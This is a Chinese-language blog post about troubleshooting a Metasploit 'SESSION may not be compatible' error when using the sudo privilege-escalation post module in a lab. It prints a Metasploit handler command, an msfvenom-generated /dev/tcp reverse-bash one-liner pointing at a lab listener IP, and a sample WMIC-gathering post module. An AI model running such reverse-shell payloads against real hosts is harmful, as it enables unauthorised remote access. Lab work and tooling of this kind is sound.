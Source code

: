 ```yaml
---
title: msf报错（SESSION may not be compatible）
categories:
- tools
tags:
- tools
---
```

msf报错（SESSION may not be compatible）
===
## 起因：sudo -s提权在msf上一直报错，但是在靶机上是可以成功提权的。

msf有一个模块，叫做`post/multi/manage/sudo`

看过这个模块的源码，就是使用sudo -s来提权的。

为什么会提权失败呢？
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-22-11/4.PNG)

## 环境配置复现，debug
### 设置msf监听
`handler -H 192.168.123.123 -P 6677 -p cmd/unix/reverse_bash`

### 生成反弹shell的载荷
```
msfvenom -p cmd/unix/reverse_bash  lhost=192.168.123.123 lport=6677 -f raw      

0<&165-;exec 165<>/dev/tcp/192.168.123.123/6677;sh <&165 >&165 2>&165
```
### 设置metapreter session
使用上一条命令获得一个`shell cmd/unix`类型的shell以后，可以使用`session -u session的ID` 这种方式，获得一个`meterpreter x86/linux`的session。

使用meterpreter的session，执行`post/multi/manage/sudo`提权载荷，会报错。
```
[!] SESSION may not be compatible with this module.
```
使用`shell cmd/unix`的载荷不会报错。

### 查看源码
```
vi /usr/share/metasploit-framework/modules/post/multi/manage/sudo.rb

在第32行，如果没有meterpreter这一个关键字，那么就只支持shell类型的session

 'SessionTypes'  => [ 'meterpreter', 'shell' ]
```
### 如何写一个msf插件
```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Post
  include Msf::Post::Windows::WMIC

  def initialize(info={})
    super( update_info( info,
      'Name'          => 'Windows Gather Run Specified WMIC Command',
      'Description'   => %q{ This module will execute a given WMIC command options or read
        WMIC commands options from a resource file and execute the commands in the
        specified Meterpreter session.},
      'License'       => MSF_LICENSE,
      'Author'        => [ 'Carlos Perez <carlos_perez[at]darkoperator.com>'],
      'Platform'      => [ 'win' ],
      'SessionTypes'  => [ 'meterpreter' ]
    ))

    register_options(
      [
        OptPath.new('RESOURCE', [false, 'Full path to resource file to read commands from.']),
        OptString.new('COMMAND', [false, 'WMIC command options.']),
      ])
  end

  # Run Method for when run command is issued
  def run
        print_status("Executing command")
        command = wmic_query("useraccount get name")
        puts command
  end
end
```